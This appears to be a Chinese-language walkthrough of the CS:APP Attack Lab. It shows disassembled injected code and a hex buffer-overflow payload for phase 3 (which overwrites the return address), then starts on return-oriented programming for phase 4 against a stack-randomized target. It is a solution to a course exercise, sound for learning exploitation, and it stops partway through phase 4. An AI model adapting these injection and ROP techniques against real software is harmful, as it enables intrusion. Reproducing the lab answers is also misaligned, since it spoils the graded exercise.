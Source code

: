 ```nasm

attack3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq

```

所以答案`phase3.txt`是:

```text
48 c7 c7 a8 dc 61 55 68 # 攻击代码从这里开始 %rip是逐行执行
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # getbuf结束后ret返回攻击代码的第一行
35 39 62 39 39 37 66 61 # 覆盖test函数栈帧，安全存放字符串
```

# Part 2

前面每次运行`ctarget`的时候，栈的地址都是一样的。

但是这里`rtarget`加入了栈随机化。

这就导致了`phase2`和`phase3`很难再通过找到`%rsp`的地址来执行我们自己注入的代码。因为每次运行`%rsp`的值都不一样。

所以得根据writeup中的`ROP`策略利用已有的字节码来执行需要的操作。

利用`farm.c`的代码，来看看有没有什么灵感。

```bash
gcc -c farm.c
objdump -d farm.o > farm.asm
```

## Phase 4

要求实现跟`Phase 2`一样的操作，只不过是在`rtarget`上运行。

并且只能使用前八个寄存器.(`%rax` ~ `%rdi`)

查看`rtarget`的反编译结果，跟`ctarget`没什么两样，问题就在于我们不能注入代码了，因为加入了栈随机化，我们不知道我们注入的代码在栈的地址。

总体而言的操作和`Phase 2`一样:

```text
attack2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3                   	retq
```
